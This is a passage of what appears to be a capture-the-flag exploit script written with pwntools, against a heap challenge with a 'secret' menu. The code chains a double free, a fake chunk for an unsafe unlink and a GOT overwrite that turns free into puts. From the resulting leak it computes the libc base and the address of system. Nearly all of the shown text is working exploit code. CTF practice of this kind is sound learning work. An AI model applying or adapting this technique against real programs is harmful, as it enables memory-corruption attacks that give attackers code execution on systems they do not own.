 ```
	target.send(data)

def WipeSecret(type):
	target.recvuntil("3. Renew secret")
	target.sendline("2")
	target.recvuntil("Which Secret do you want to wipe?")
	target.sendline(str(type))

def RenewSecret(type, data):
	target.recvuntil("3. Renew secret")
	target.sendline("3")
	target.recvuntil("Which Secret do you want to renew?")
	target.sendline(str(type))
	target.recvuntil("Tell me your secret: ")
	target.send(data)

small_secret = 0x6020d0

# Execute the double free
KeepSecret(1, "15935728")
KeepSecret(2, "95175382")
WipeSecret(1)
KeepSecret(3, "35715928")
WipeSecret(1)

# Construct the fake chunk, and allocate a new small secret which we will store it
fake_chunk = p64(0)*2
fake_chunk += p64(small_secret - 0x18)
fake_chunk += p64(small_secret - 0x10)
fake_chunk += p64(0x20)
KeepSecret(1, fake_chunk)

# Free the big Secret, which will execute the unsafe unlink
WipeSecret(2)

# Construct the payload to write over 0x6020d0 with the got address of free, with the got address of puts eight bytes behind it
got_overwrite = p64(0)
got_overwrite += p64(elf.got['puts'])
got_overwrite += p64(0)
got_overwrite += p64(elf.got['free'])

# Execute the overwrite
RenewSecret(1, got_overwrite)


# Execute the write over the got address of free with the plt address of puts
RenewSecret(1, p64(elf.plt['puts']))

# Call free to get the infoleak for the got address of puts
WipeSecret(2)

# Filter out the info leak, and calculate libc base and address of system
target.recvuntil('\n1. Small secret\n2. Big secret\n')
leak = target.recv(6)
puts = u64(leak + "\x00\x00")
libc_base = puts - libc.symbols['puts']
system = libc_base + libc.symbols['system']
log.info("Address of puts:      " + hex(puts)) 
log.info("Address of system:    " + hex(system)) 
log.info("Address of libc base: " + hex(libc_base)) 


```